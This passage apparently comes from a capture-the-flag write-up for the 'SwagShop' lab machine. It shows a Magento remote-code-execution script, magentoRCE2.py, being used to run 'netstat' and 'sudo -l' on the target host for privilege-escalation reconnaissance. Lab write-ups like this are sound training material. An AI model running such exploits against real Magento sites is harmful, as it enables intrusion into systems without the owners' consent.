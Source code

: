 ![](./IMG/34.png)
- Focus on the user with /bin/bash
![](./IMG/35.png)
- Check network status 
```
python magentoRCE2.py http://swagshop.htb "netstat -tunlp"
```
![](./IMG/36.png)
- Check sudo permission
```
python magentoRCE2.py http://swagshop.htb "sudo -l"
```